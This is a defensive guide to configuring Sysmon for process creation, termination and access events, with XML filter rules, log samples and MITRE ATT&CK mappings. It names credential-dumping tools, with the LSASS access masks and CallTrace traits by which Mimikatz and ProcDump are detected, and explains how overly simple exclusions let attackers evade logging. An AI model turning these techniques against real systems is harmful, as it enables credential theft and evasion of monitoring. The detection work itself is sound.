Process creation monitoring stands above all other event types in importance for one simple reason: attackers must execute code to accomplish their objectives. Regardless of how an attacker gains initial access - through a phishing email, a web application vulnerability, stolen credentials, or a physical device - they eventually need to run programs on the compromised system.

Every significant action an attacker takes involves process execution:

* **Initial Access**: Exploits often execute shellcode that spawns a process
* **Persistence**: Backdoors and implants are processes that need to start
* **Credential Dumping**: Tools like Mimikatz must run as processes
* **Discovery**: Enumeration commands like whoami, net user, and ipconfig are all processes
* **Lateral Movement**: Remote execution via PsExec, WMI, or PowerShell creates processes on target systems
* **Collection**: Scripts that search for and gather data run as processes
* **Exfiltration**: Tools that upload data externally are processes
* **Impact**: Ransomware encryption runs as a process

When you examine the MITRE ATT&CK framework, you will find that process monitoring (specifically command line logging and process creation events) is listed as a primary or supplemental data source for detecting the vast majority of techniques across all tactics. Out of over 600 techniques documented in ATT&CK, process command line parameters are relevant for detecting hundreds of them. No other single data source provides this level of coverage.

This widespread applicability makes process creation logging the cornerstone of endpoint detection. If you could only enable one Sysmon event type, this would be it. However, this importance comes with a challenge: volume.


A typical Windows workstation creates hundreds to thousands of processes per day. Servers, especially domain controllers or application servers, can generate tens of thousands. If you log every single process creation without filtering, you will quickly face several problems:

* **Storage costs** become significant across hundreds or thousands of endpoints
* **SIEM performance** degrades as millions of events per day are indexed
* **Analyst fatigue** sets in when legitimate detections are buried in normal activity
* **Investigation speed** slows when analysts must sort through massive volumes of logs

This is why an outlier-based approach is essential for process creation monitoring.


The most effective strategy for process creation logging is to exclude known-good, normal processes and capture everything else - the outliers. This approach flips the problem on its head. Instead of trying to predict what attacks will look like and writing rules to catch them, you define what normal looks like and eliminate it from your logs. What remains is the unusual, the unexpected, and the potentially malicious.

On Windows, Sysmon will generate a ProcessGuid and LogonGuid with the information it obtains and will hash the process main image. The command line of the process will be parsed and logged. The recommended practice is to start by logging all processes during a baselining period, then progressively add exclusions for common day-to-day processes for Windows and applications after profiling usage in your environment.

The fields on a process creation event are:

* **ProcessGuid** -- Unique process GUID generated by Sysmon.

* **ProcessId** -- Process ID represented as a integer number.

* **Image** -- Full path of the executable image that was executed.

* **FileVersion** -- File version filed in the image metadata. (Windows Only)

* **Description** -- Description field in the image metadata.(Windows Only)

* **Product** -- Product field in the image metadata. (Windows Only)

* **Company** - Company field in the image metadata. (Windows Only)

* **OriginalFileName** -- Original image name if renamed. (Windows Only)

* **CommandLine** -- Command line that executed the image.

* **CurrentDirectory** -- Directory under which the image was
    executed.

* **User** - Name of the account who created the process (child) . It
    usually contains domain name and user name

* **LogonGuid** - Logon GUID of the user who created the new process.

* **LogonId** -Login ID of the user who created the new process.

* **TerminalSessionId** - ID of the session the user belongs to

* **IntegrityLevel** - Integrity label assigned to a process

* **Hashes** - Full hash of the file with the algorithms in the
    HashType field. (Windows Only)

* **ParentProcessGuid** - ProcessGUID of the process that
    spawned/created the main process (child)

* **ParentProcessId** - Process ID of the process that spawned/created
    the main process (child)

* **ParentImage -** File path that spawned/created the main process.

* **ParentCommandLine -** Arguments which were passed to the
    executable associated with the parent process

Sysmon offers an advantage over the regular process logging in Windows since it not only pulls the same information as with **EventID** **4688** but it also pulls information from the PE header, hashes the images for correlation with IOC databases like Virus Total and it also provides unique fields when querying for events.


The most common mistake when filtering process creation events is creating exclusions that are too broad or too simple. This creates opportunities for attackers to evade detection by mimicking legitimate processes. Consider these principles when building exclusions:

**Never Exclude by a Single Field**: An exclusion based solely on process name is trivial to bypass. If you exclude "svchost.exe" by name alone, an attacker can simply name their malware "svchost.exe" and it will not be logged. Always use multiple fields in combination.

**Use Multiple Criteria Together**: Effective exclusions combine several fields to create a specific signature of the legitimate process:

* **Image (full path) + Hashes**: Exclude a specific executable at a specific location with a specific hash. This is the most secure approach but requires updating exclusions when software updates change file hashes.

* **Image + ParentImage**: Exclude a process only when it is launched by a specific parent. For example, excluding "conhost.exe" only when spawned by legitimate system processes.

* **Image + CommandLine patterns**: Exclude based on both the executable path and expected command line parameters. This catches normal usage while flagging unusual parameters.

* **Image + User**: Exclude certain processes only when run by specific service accounts or system users.

Here are examples of weak versus strong exclusions:

**Weak Exclusion (Easily Bypassed)**:
```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="exclude">
    <!-- BAD: Only checks process name -->
    <Rule groupRelation="and">
      <Image condition="end with">chrome.exe</Image>
    </Rule>
  </ProcessCreate>
</RuleGroup>
```

An attacker can bypass this by naming their malware "chrome.exe" or placing it anywhere on disk with that name.

**Strong Exclusion (Specific and Difficult to Bypass)**:
```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="exclude">
    <!-- GOOD: Multiple specific criteria -->
    <Rule name="LegitimateChrome" groupRelation="and">
      <Image condition="begin with">C:\Program Files\Google\Chrome\Application\</Image>
      <IntegrityLevel condition="is">Medium</IntegrityLevel>
      <Signed condition="is">true</Signed>
    </Rule>
  </ProcessCreate>
</RuleGroup>
```

This exclusion requires the process to be in the correct directory, have the correct integrity level, and be signed. An attacker would have difficulty meeting all these criteria.

**Examples of Well-Structured Exclusions**:

Excluding Windows Defender scans:
```xml
<Rule name="DefenderScan" groupRelation="and">
  <Image condition="is">C:\ProgramData\Microsoft\Windows Defender\Platform\MpCmdRun.exe</Image>
  <ParentImage condition="is">C:\Windows\System32\svchost.exe</ParentImage>
</Rule>
```

Excluding legitimate PowerShell executed by management tools:
```xml
<Rule name="SCCMPowerShell" groupRelation="and">
  <Image condition="is">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Image>
  <ParentImage condition="is">C:\Windows\CCM\CcmExec.exe</ParentImage>
</Rule>
```

**What to Commonly Exclude**: After baselining, you will typically find these high-volume, low-value processes can be safely excluded when properly scoped:

* **System update processes**: Windows Update components, application updaters (when verified by path and signature)
* **Management agents**: SCCM, Tanium, or other endpoint management tools performing expected actions
* **Antivirus scans**: Scheduled scans and routine operations from security tools
* **Backup agents**: Routine backup operations
* **Monitoring tools**: Performance monitoring, inventory tools

**What to Never Exclude Completely**: Some processes should always be logged because they are commonly abused by attackers:

* **powershell.exe**: Always log PowerShell, though you may exclude specific parent processes or common administrative scripts
* **cmd.exe**: Command prompt execution should be logged
* **wmic.exe**: WMI command line tool is frequently used in attacks
* **psexec.exe**: Remote execution tool
* **regsvr32.exe**: COM server registration utility frequently abused for code execution
* **rundll32.exe**: DLL loading utility commonly used to execute malicious code
* **mshta.exe**: HTML Application host often used to execute scripts
* **cscript.exe, wscript.exe**: Windows Script Host executables

**Testing Your Exclusions**: After implementing exclusions, validate that you have not created blind spots. Use tools like Atomic Red Team to safely execute attack simulations in a test environment. For example, test that you still detect:

* PowerShell launched with encoded commands
* Processes spawned from unusual parents (Word launching cmd.exe)
* Execution from temporary directories
* Processes with unusual command line parameters

If your simulated attacks no longer generate process creation events, you have excluded too much and created a false negative.

In Linux the advantage provided by Sysmon is that the data is structured in a way that makes it easier to parse and leverage in a SIEM that ingests the logs. Below is an auditd example of the "ping -c 3 8.8.8.8" command.

```conf
type=PROCTITLE msg=audit(10/26/2021 12:51:14.046:1385) : proctitle=-bash 
type=PATH msg=audit(10/26/2021 12:51:14.046:1385) : item=1 name=/lib64/ld-linux-x86-64.so.2 inode=401163 dev=08:05 mode=file,755 ouid=root ogid=root rdev=00:00 nametype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 cap_frootid=0 
type=PATH msg=audit(10/26/2021 12:51:14.046:1385) : item=0 name=/usr/bin/ping inode=394173 dev=08:05 mode=file,755 ouid=root ogid=root rdev=00:00 nametype=NORMAL cap_fp=net_raw cap_fi=none cap_fe=1 cap_fver=2 cap_frootid=0 
type=CWD msg=audit(10/26/2021 12:51:14.046:1385) : cwd=/root 
type=EXECVE msg=audit(10/26/2021 12:51:14.046:1385) : argc=4 a0=ping a1=-c a2=3 a3=8.8.8.8 
type=SYSCALL msg=audit(10/26/2021 12:51:14.046:1385) : arch=x86_64 syscall=execve success=yes exit=0 a0=0x55c090caa2b0 a1=0x55c090ca9050 a2=0x55c090cb0750 a3=0x8 items=2 ppid=9313 pid=10184 auid=carlos uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=pts0 ses=5 comm=ping exe=/usr/bin/ping subj=unconfined key=(null)
```

Here is the same command logged in Sysmon where the event is contained in XML format.

```xml
Oct 26 13:11:11 ubuntu sysmon: <Event><System><Provider Name="Linux-Sysmon" Guid="{ff032593-a8d3-4f13-b0d6-01fc615a0f97}"/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime="2021-10-26T20:11:11.156042000Z"/><EventRecordID>216077</EventRecordID><Correlation/><Execution ProcessID="1032" ThreadID="1032"/><Channel>Linux-Sysmon/Operational</Channel><Computer>ubuntu</Computer><Security UserId="0"/></System><EventData><Data Name="RuleName">-</Data><Data Name="UtcTime">2021-10-26 20:11:11.159</Data><Data Name="ProcessGuid">{2424faa4-60df-6178-315b-20b68b550000}</Data><Data Name="ProcessId">2669</Data><Data Name="Image">/usr/bin/ping</Data><Data Name="FileVersion">-</Data><Data Name="Description">-</Data><Data Name="Product">-</Data><Data Name="Company">-</Data><Data Name="OriginalFileName">-</Data><Data Name="CommandLine">ping -c 3 8.8.8.8</Data><Data Name="CurrentDirectory">/home/carlos/Desktop</Data><Data Name="User">carlos</Data><Data Name="LogonGuid">{2424faa4-0000-0000-e803-000000000000}</Data><Data Name="LogonId">1000</Data><Data Name="TerminalSessionId">3</Data><Data Name="IntegrityLevel">no level</Data><Data Name="Hashes">-</Data><Data Name="ParentProcessGuid">{2424faa4-60b3-6178-0517-a76010560000}</Data><Data Name="ParentProcessId">2641</Data><Data Name="ParentImage">/usr/bin/bash</Data><Data Name="ParentCommandLine">bash</Data><Data Name="ParentUser">carlos</Data></EventData></Event>
```

In addition to this having a unique LogonGUID and ProcessGUID for correlation makes correlation much quicker.

### Process Termination


Sysmon will log an **EventID 5** when a process terminates. While less critical than process creation events, process termination logging provides valuable context for investigations and can help detect specific attacker behaviors, particularly defensive evasion techniques.


Process termination events serve several important purposes in detection engineering:

**Timeline Analysis**: By correlating process creation (Event ID 1) with termination events, you can calculate how long a process ran. A process that executes for only milliseconds might indicate reconnaissance or automated attack tools. A process that runs for an unusually long time might indicate persistence or data exfiltration.

**Defensive Evasion Detection**: Attackers frequently terminate security tools to operate undetected. Monitoring for the termination of specific processes can alert you when:
* Antivirus or EDR agents are killed
* Logging services are stopped
* Backup processes are terminated (common before ransomware deployment)
* Windows Defender processes are stopped
* Sysmon itself is terminated

**Incident Investigation**: When investigating an incident, knowing when processes stopped running helps establish a timeline. This is particularly valuable when analyzing malware that runs briefly, deletes itself, and terminates.

**Anomaly Detection**: Unexpected termination of critical system processes or services can indicate system instability, crashes due to exploitation, or deliberate sabotage.

**MITRE ATT&CK Mapping**: Process termination is relevant for detecting:
* **T1562 - Impair Defenses**: Stopping or killing security tools
* **T1489 - Service Stop**: Terminating services before destructive actions
* **T1490 - Inhibit System Recovery**: Stopping backup or recovery services


Unlike process creation, process termination is a **lower priority event type** for most environments. The volume is similar to process creation (every process that starts will eventually terminate), but the detection value is lower. This leads to three common configuration approaches:

**Approach 1 - Do Not Log (Common)**: Many organizations do not log process termination at all. If storage or SIEM licensing is constrained, this is often the first event type to be disabled. You can still conduct investigations using only process creation events; you simply lose some timeline precision.

**Approach 2 - Log Everything**: Some organizations log all process termination events to maintain complete process lifecycle visibility. This approach makes sense if:
* You have sufficient storage and SIEM capacity
* You frequently conduct detailed forensic investigations
* You want precise process duration calculations
* Compliance requirements demand complete audit trails

**Approach 3 - Targeted Includes (Recommended)**: Rather than logging all terminations or using exclusions, configure Sysmon to only log termination of security-relevant processes. This provides the detection value without the volume burden.


The most effective approach is to only log termination of processes that matter for security monitoring:

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessTerminate onmatch="include">

    <!-- Security Tools - Detect defensive evasion -->
    <Rule name="SecurityToolTermination" groupRelation="or">
      <Image condition="contains">defender</Image>
      <Image condition="contains">avast</Image>
      <Image condition="contains">avg</Image>
      <Image condition="contains">norton</Image>
      <Image condition="contains">mcafee</Image>
      <Image condition="contains">sophos</Image>
      <Image condition="contains">crowdstrike</Image>
      <Image condition="contains">carbon</Image>
      <Image condition="end with">MsSense.exe</Image>
      <Image condition="end with">SysmonDrv.exe</Image>
    </Rule>

    <!-- Critical System Processes -->
    <Rule name="CriticalProcessTermination" groupRelation="or">
      <Image condition="end with">lsass.exe</Image>
      <Image condition="end with">csrss.exe</Image>
      <Image condition="end with">wininit.exe</Image>
    </Rule>

    <!-- Backup and Recovery Services -->
    <Rule name="BackupServiceTermination" groupRelation="or">
      <Image condition="contains">vss</Image>
      <Image condition="contains">backup</Image>
      <Image condition="contains">wbadmin</Image>
    </Rule>

    <!-- Logging Services -->
    <Rule name="LoggingServiceTermination" groupRelation="or">
      <Image condition="end with">EventLog.exe</Image>
      <Image condition="contains">splunk</Image>
      <Image condition="contains">elastic</Image>
    </Rule>

  </ProcessTerminate>
</RuleGroup>
```

This configuration only logs termination of processes that are security-relevant, dramatically reducing volume while maintaining detection capability for defensive evasion attempts.


When reviewing process termination events, look for these suspicious patterns:

**Security Tool Termination**: Any termination of antivirus, EDR, or monitoring tools should be investigated. Legitimate updates or administrative actions should be rare and documented.

**Batch Terminations**: Multiple processes terminated in rapid succession by the same parent process, especially if terminating security tools or system services. This pattern is common in ransomware and wiper malware.

**Unusual Termination Methods**: Processes terminated by debugging tools, scripts, or command-line utilities like taskkill.exe when targeting security processes.

**Short-Lived Suspicious Processes**: When correlated with process creation, very short process lifetimes for reconnaissance tools, credential dumpers, or other attack tools that execute and immediately exit.

The process termination fields are:

* **RuleName** -- Rule name for which the event triggered.

* **UtcTime** - Time in UTC when event was created

* **ProcessGuid** - Process Guid of the process that terminated

* **ProcessId** - Process ID used by the OS to identify the process
    that terminated

* **Image** - File path of the executable of the process that
    terminated

### Process Access


When one process opens another and requests access to its memory space, Sysmon will log this with an **Event ID 10**. This event type is critical for detecting some of the most dangerous post-exploitation techniques used by attackers, including credential theft, process injection, and memory manipulation.


Process access monitoring is essential because many advanced attack techniques require reading or modifying another process's memory. Understanding when and how processes access each other provides visibility into:

**Credential Dumping**: The most common use case for process access monitoring is detecting attempts to steal credentials from memory. Attackers frequently target specific Windows processes that contain credentials in memory:
* **lsass.exe** (Local Security Authority Subsystem Service) - Contains authentication credentials and is the primary target for tools like Mimikatz
* **csrss.exe** (Client/Server Runtime Subsystem) - Can contain sensitive session information
* **winlogon.exe** - Handles user logon and may contain plaintext passwords briefly

**Process Injection**: Attackers inject malicious code into legitimate processes to evade detection and gain elevated privileges. This requires opening the target process with specific access rights to write to its memory and create threads.

**Process Hollowing**: A technique where an attacker creates a legitimate process in a suspended state, replaces its code with malicious code, and then resumes execution. This also requires specific process access rights to manipulate memory.

**Defense Evasion**: Accessing security tool processes to disable protections, manipulate their behavior, or terminate them.

**MITRE ATT&CK Mapping**: Process access events help detect:
* **T1003.001 - OS Credential Dumping: LSASS Memory** - Reading LSASS process memory to extract credentials
* **T1055 - Process Injection** - Injecting code into running processes
* **T1055.012 - Process Hollowing** - Replacing legitimate process code with malicious code
* **T1106 - Native API** - Using low-level APIs to access processes
* **T1134 - Access Token Manipulation** - Opening processes to steal or manipulate access tokens


Process access can generate moderate to high volumes of events depending on configuration. Many legitimate processes routinely access other processes for benign purposes:
* Task Manager queries all running processes
* Monitoring tools read process information
* Management agents check process status
* Security software scans running processes

This is why process access monitoring uses a **targeted include approach** rather than exclusions. Instead of logging all process access and filtering out normal activity, you configure Sysmon to only log access to specific critical processes or access attempts using specific dangerous access rights.


Unlike high-volume event types such as process creation where you use exclusions to filter out noise, process access monitoring works best with **targeted includes**. You explicitly specify which processes to monitor and which access rights to alert on. This approach provides several benefits:

**Focused Detection**: By only monitoring specific critical processes, you ensure every event logged is potentially significant.

**Manageable Volume**: Limiting monitoring to a handful of critical system processes keeps event volume low.

**Clear Intent**: When a process access event is generated, it is because something accessed a process you specifically decided to protect. This makes triage straightforward.

**Reduced False Positives**: While you will still see some benign access to critical processes, the volume is low enough that filtering can be done at the SIEM level using additional context like source process path, user account, or parent process.


Sysmon generates this event using ObRegisterCallbacks leveraging its driver. The main two filtering fields recommended are:

* **TargetImage** - File path of the executable being accessed by another process. This is how you specify which processes to protect.

* **GrantedAccess** - The access flags (bitmask) associated with the process rights requested for the target process. This allows you to filter for specific dangerous access rights.


As a minimum, it is recommended to monitor these critical Windows processes:

* **C:\\Windows\\system32\\lsass.exe** - Primary target for credential theft. This should always be monitored.

* **C:\\Windows\\system32\\csrss.exe** - Client/Server Runtime Subsystem, can contain session credentials

* **C:\\Windows\\system32\\wininit.exe** - Windows initialization process

* **C:\\Windows\\system32\\winlogon.exe** - Handles interactive logon, may contain credentials temporarily

* **C:\\Windows\\system32\\services.exe** - Service Control Manager

You may also want to monitor:
* Your EDR or antivirus processes (to detect attempts to disable security tools)
* Backup agent processes (to detect ransomware attempting to terminate backup services)
* Domain controller specific processes if monitoring DCs


Access masks define what permissions are being requested when one process opens another. Different attack techniques require different access rights, so understanding these masks helps you identify what an attacker is attempting to do.

**Important**: Sysmon performs a literal string comparison of the GrantedAccess value, not a bitwise operation. The mask must match exactly as logged. Care should be taken to track the proper combinations and test your filters to ensure they trigger correctly.

|Access                               |  Mask       |
|--------------------------------------|------------
| PROCESS\_CREATE\_PROCESS               |0x0080|
| PROCESS\_CREATE\_THREAD                |0x0002|
| PROCESS\_DUP\_HANDLE                   |0x0040|
| PROCESS\_SET\_INFORMATION              |0x0200|
| PROCESS\_SET\_QUOTA                    |0x0100|
| PROCESS\_QUERY\_LIMITED\_INFORMATION   |0x1000|
| SYNCHRONIZE                            |0x00100000|
| PROCESS\_QUERY\_INFORMATION            |0x0400|
| PROCESS\_SUSPEND\_RESUME               |0x0800|
| PROCESS\_TERMINATE                     |0x0001|
| PROCESS\_VM\_OPERATION                 |0x0008|
| PROCESS\_VM\_READ                      |0x0010|
| PROCESS\_VM\_WRITE                     |0x0020|

**Common Attack Patterns and Their Access Masks:**

Different attack tools and techniques use specific combinations of access rights:

* **0x1010** (PROCESS_VM_READ + PROCESS_QUERY_INFORMATION) - Commonly used by Mimikatz sekurlsa module to read LSASS memory
* **0x1F1FFF** or **0x1FFFFF** - PROCESS_ALL_ACCESS, requests all possible rights, often used by debugging tools like ProcDump
* **0x1438** or **0x143A** - Used by Mimikatz lsadump module for various credential dumping operations
* **0x0810** (PROCESS_VM_READ + PROCESS_SUSPEND_RESUME) - Can indicate credential dumping attempts
* **0x0820** (PROCESS_VM_WRITE + PROCESS_CREATE_THREAD) - Strong indicator of process injection
* **0x0800** (PROCESS_SUSPEND_RESUME) - May indicate process hollowing when combined with other memory operations

**Legitimate Access Patterns to Expect:**

You will see some benign process access even when monitoring critical processes:

* Task Manager and monitoring tools querying process information with low-privilege access masks
* Security software scanning processes with read access
* Windows services performing normal system operations
* Management agents checking process status

These can typically be filtered at the SIEM level by creating exclusions for known-good source processes (e.g., Task Manager at C:\\Windows\\System32\\taskmgr.exe accessing with 0x1400 or 0x1000).

**The PSGumshoe PowerShell module has a function for creating and parsing mask strings:**
<https://github.com/PSGumshoe/PSGumshoe/blob/sysmon_events/EventLog/Get-SysmonAccessMask.ps1>


The fields for the event are:

* **RuleName**: Rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **SourceProcessGUID**: Process Guid of the source process that
    opened another process.

* **SourceProcessId**: Process ID used by the OS to identify the
    source process that opened another process.

* **SourceThreadId**: ID of the specific thread inside of the source
    process that opened another process

* **SourceImage**: File path of the source process that created a
    thread in another process

* **TargetProcessGUID**: Process Guid of the target process

* **TargetProcessId**: Process ID used by the OS to identify the
    target process

* **TargetImage**: File path of the executable of the target process

* **GrantedAccess**: The access flags (bitmask) associated with the
    process rights requested for the target process

* **CallTrace**: Stack trace of where open process is called. Included is the DLL and the relative virtual address of the functions in the call stack right before the open process call. This field is valuable for identifying the code path that led to the process access, which can help distinguish legitimate tools from malicious ones.


Below is an example configuration that implements targeted monitoring of critical processes:

```xml
<Sysmon schemaversion="4.22">
   <EventFiltering>
 <RuleGroup name="" groupRelation="or">
      <ProcessAccess onmatch="include">
        <!-- Detect Access to LSASS-->
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\lsass.exe</TargetImage>
          <GrantedAccess>0x1FFFFF</GrantedAccess>
         </Rule>
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\lsass.exe</TargetImage>
          <GrantedAccess>0x1F1FFF</GrantedAccess>
         </Rule>
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\lsass.exe</TargetImage>
          <GrantedAccess>0x1010</GrantedAccess>
         </Rule>
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\lsass.exe</TargetImage>
          <GrantedAccess>0x143A</GrantedAccess>
         </Rule>

        <!--Dumping credentials from services or setting up a keylogger-->
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\csrss.exe</TargetImage> <!--Mitre T1098--> <!--Mitre T1075--> <!--Mitre T1003--><!-- depending on what you're running on your host, this might be noisy-->
          <GrantedAccess>0x1F1FFF</GrantedAccess>
         </Rule>
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\wininit.exe</TargetImage> <!--Mitre T1098--> <!--Mitre T1075--> <!--Mitre T1003--><!-- depending on what you're running on your host, this might be noisy-->
          <GrantedAccess>0x1F1FFF</GrantedAccess>
         </Rule>
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\winlogon.exe</TargetImage> <!--Mitre T1098--> <!--Mitre T1075--> <!--Mitre T1003--><!-- depending on what you're running on your host, this might be noisy-->
          <GrantedAccess>0x1F1FFF</GrantedAccess>
         </Rule>
         <Rule groupRelation="and">
          <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\services.exe</TargetImage> <!--Mitre T1098--> <!--Mitre T1075--> <!--Mitre T1003--><!-- depending on what you're running on your host, this might be noisy-->
          <GrantedAccess>0x1F1FFF</GrantedAccess>
         </Rule>
         <Rule groupRelation="or">
            <GrantedAccess name="technique_id=T1003,technique_name=Credential Dumping">0x0810</GrantedAccess>
         </Rule>

         <!-- Detect process hollowing-->
         <Rule groupRelation="or">
            <GrantedAccess name="technique_id=T1093,technique_name=Process Hollowing">0x0800</GrantedAccess>
            <GrantedAccess name="technique_id=T1093,technique_name=Process Hollowing">0x800</GrantedAccess>
         </Rule>
         <!-- Detect process process injection-->
         <Rule groupRelation="or">
            <GrantedAccess name="technique_id=T1055,technique_name=Process Injection">0x0820</GrantedAccess>
            <GrantedAccess name="technique_id=T1055,technique_name=Process Injection">0x820</GrantedAccess>
         </Rule>
      </ProcessAccess>
</RuleGroup>
</EventFiltering>
</Sysmon>
```


**Known Credential Dumping Tool Access Patterns:**

Below are examples of access masks generated by common credential theft tools:

  |Command/Tool            |Sysmon 10 GrantedAccess                             |Security 4663 Kernel Object AccessMask
  |-----------------------|---------------------------------------------------|-----------------------------
  |Mimikatz lsadump::lsa /patch |GrantedAccess 0x1438                          |AccessMask 0x10
  |Mimikatz lsadump::lsa /inject|GrantedAccess 0x143a                          |AccessMask 0x10
  |Mimikatz lsadump::trust /patch|GrantedAccess 0x1438                         |AccessMask 0x10
  |Mimikatz misc::memssp       |GrantedAccess 0x1438                              |AccessMask 0x10
  |Procdump (mini dump LSASS)  |GrantedAccess 0x1fffff                            |AccessMask 0x10
  |Task Manager (create dump)  |GrantedAccess 0x1400, 0x1000, 0x1410, 0x1fffff    |AccessMask 0x10
  |Mimikatz sekurlsa::\*       |GrantedAccess 0x1010                              |AccessMask 0x10

**Analyzing CallTrace for Suspicious Indicators:**

The CallTrace field is one of the most valuable indicators for distinguishing legitimate access from attacks. It shows the stack of function calls that led to the process being opened, including which DLLs were involved.

**Suspicious DLLs to Watch For:**

* **dbghelp.dll** - Microsoft debugging library commonly used by memory dumping tools. Frequently seen in LSASS credential dumping attacks, particularly in older versions of Windows. Also used against svchost.exe to extract RDP credentials from Terminal Services.

* **dbgcore.dll** - Windows debugging core library, similar usage to dbghelp.dll. Often indicates memory dumping activity against critical processes.

* **ntdll.dll with uncommon call patterns** - While ntdll.dll is present in legitimate operations, unusual call stacks or direct API usage can indicate process injection or memory manipulation.

* **Unknown or suspicious third-party DLLs** - DLLs loaded from unusual paths or without proper signatures.

**Examples of Malicious CallTrace Patterns:**

When attackers dump LSASS memory using tools like ProcDump, Mimikatz, or custom dumpers, you will often see:
```
CallTrace: C:\Windows\System32\dbghelp.dll+...
CallTrace: C:\Windows\System32\dbgcore.dll+...
```

Attacks targeting svchost.exe for RDP credential theft show similar patterns with these debugging DLLs.

**Legitimate vs. Malicious CallTrace:**

* **Legitimate**: Windows system processes accessing LSASS typically show call traces through expected Windows DLLs (kernel32.dll, kernelbase.dll) for routine operations
* **Suspicious**: Call traces showing dbghelp.dll or dbgcore.dll accessing LSASS or svchost, especially from user-initiated processes or unusual parent processes
* **High Risk**: Call traces from these debugging DLLs when the source process is running from temp directories, user downloads, or is a script-based tool (PowerShell, cmd.exe)

**What to Watch For:**

When reviewing process access events, prioritize investigation of:

1. **Unknown or Unexpected Processes Accessing LSASS or svchost**: Any process you do not recognize or that should not need access to these critical processes

2. **Suspicious Source Paths**: Processes accessing critical processes from:
   * Temp directories (C:\\Users\\*\\AppData\\Local\\Temp, C:\\Windows\\Temp)
   * User download directories
   * Unusual system paths (C:\\ProgramData\\*, C:\\Users\\Public\\*)
   * Network shares

3. **Debugging DLLs in CallTrace**: Any CallTrace showing dbghelp.dll or dbgcore.dll should be investigated, especially when accessing LSASS or svchost

4. **PowerShell or Command-Line Tools**: While legitimate in some enterprise environments, PowerShell or cmd.exe accessing LSASS often indicates attack tools

5. **High-Privilege Access Masks**: 0x1FFFFF (PROCESS_ALL_ACCESS) from non-debugging, non-administrative tools

6. **After-Hours Access**: Credential dumping during off-hours when administrative activity is less expected

7. **RDP Credential Theft Indicators**: Process access to svchost.exe (especially the one hosting TermService) with debugging DLLs in the CallTrace

**Reducing False Positives:**

Process access monitoring of critical processes will generate some benign events. Use these strategies to reduce noise:

1. **SIEM-Level Filtering**: Rather than excluding at Sysmon level, filter known-good source processes in your SIEM using the full source image path

2. **Baseline Normal Behavior**: Document which management or security tools in your environment legitimately access LSASS and create exclusions for those specific processes

3. **Use the CallTrace Field**: Legitimate Windows processes will show expected DLL call stacks. Suspicious access often shows unusual call traces or debugging-related DLLs

4. **Correlate with Other Events**: Cross-reference with process creation events to understand what spawned the accessing process

5. **Whitelist by Path and Hash**: For legitimate tools, whitelist using both the full image path and file hash to prevent attackers from masquerading

**Testing Your Configuration:**

Validate your process access monitoring by safely simulating attacks in a test environment:

* Use Mimikatz in a lab to verify you detect sekurlsa and lsadump commands
* Test legitimate administrative tools to understand their access patterns and CallTrace signatures
* Verify ProcDump and Task Manager dump creation generates alerts with expected CallTrace data
* Simulate RDP credential theft techniques against svchost to verify detection
* Ensure CallTrace data is being captured and review the DLLs involved

By properly configuring and monitoring process access events, you gain visibility into some of the most critical phases of an attack: credential theft and code injection. This event type, when properly tuned, provides high-fidelity detections with manageable false positive rates.

## File Events

### File Create


Via its filter driver, Sysmon can log the creation of files and information on what process created the file using **EventID 11**. File creation monitoring provides valuable detection capabilities for malware delivery, persistence mechanisms, and attacker tool staging. However, this is a high-volume event type that requires careful configuration to balance detection value with system performance and storage costs.


File creation monitoring provides visibility into several critical attack phases:

**Initial Access and Delivery**: Attackers must write malicious files to disk. File creation events help detect:
* Weaponized documents dropped by email clients or browsers
* Malware payloads downloaded from the internet
* Exploitation frameworks writing files to disk
* Drive-by download artifacts

**Execution and Staging**: Before executing payloads, attackers often stage files. Monitoring detects:
* Script files (.ps1, .vbs, .js, .bat) created by Office applications (malicious macros)
* Executable files dropped into temporary directories
* Tools downloaded for later execution (Mimikatz, PsExec, etc.)
* Compilation artifacts from .NET execution (DotNetToJS technique)

**Persistence Mechanisms**: Many persistence techniques involve file creation:
* Startup folder files for automatic execution
* Scheduled task XML files
* WMI MOF files for WMI persistence
* DLL files placed for DLL hijacking

**Defense Evasion**: Attackers create files to evade detection:
* Log file deletion and recreation (clearing evidence)
* Configuration files for malware
* Staging areas in unusual locations

**Credential Access**: Some credential theft creates files:
* LSASS dump files (created by ProcDump, Task Manager, Mimikatz)
* SAM/SYSTEM/SECURITY hive exports
* NTDS.dit copies from domain controllers

**MITRE ATT&CK Mapping**: File creation events help detect:
* **T1105 - Ingress Tool Transfer**: Downloading additional attack tools
* **T1059 - Command and Scripting Interpreter**: Script file creation for execution
* **T1053 - Scheduled Task/Job**: Task XML file creation
* **T1036 - Masquerading**: Files with misleading names or extensions
* **T1003 - OS Credential Dumping**: LSASS dump file creation
* **T1027 - Obfuscated Files or Information**: Encoded/encrypted file staging
* **T1204 - User Execution**: Malicious files delivered for user interaction


An important technical detail: **Sysmon cannot log files that are blocked before they are written to disk.**

Antivirus and EDR products use minifilter drivers that load at lower altitude numbers than Sysmon (meaning they process I/O operations first). If an AV/EDR minifilter detects a malicious file and blocks it from being written, Sysmon never sees the file creation and cannot log it.

This means Sysmon file creation events are most valuable for detecting:
* Files that bypass AV/EDR detection (zero-days, obfuscated payloads)
* Living-off-the-land techniques using legitimate tools
